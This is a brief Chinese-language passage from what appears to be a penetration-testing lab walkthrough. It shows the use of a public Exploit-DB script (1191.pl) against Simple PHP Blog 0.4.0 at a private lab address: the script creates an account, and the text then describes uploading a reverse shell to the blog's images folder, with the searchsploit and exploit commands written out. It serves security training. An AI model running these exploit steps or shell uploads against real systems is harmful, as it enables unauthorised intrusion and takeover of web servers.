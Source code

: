[![](assets/1703831504-140054874f3c010dc100cbfaacae7b3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164015-8ec31bba-a493-1.png)

> 拿到 www-data 权限

### <4>Simple PHP 框架漏洞利用（exp）

1.  基于`whatweb`的识别，漏洞库找该 cmd 的 exp
2.  [Simple PHP Blog 0.4.0 - Multiple Remote s - PHP webapps Exploit|1191.pl](https://www.exploit-db.com/exploits/1191)
3.  用生成新用户名密码`wsec/wsec`登录`/blog`，可以上传反弹 shell 到 `/blog/images`
    
    ```plain
    searchsploit Simple PHP Blog 0.4.0 -m 1191
    ./1191.pl -h http://10.10.10.100/blog -e 2
    ./1191.pl -h http://10.10.10.100/blog -e 3 -U wsec -P wsec
    ```
    
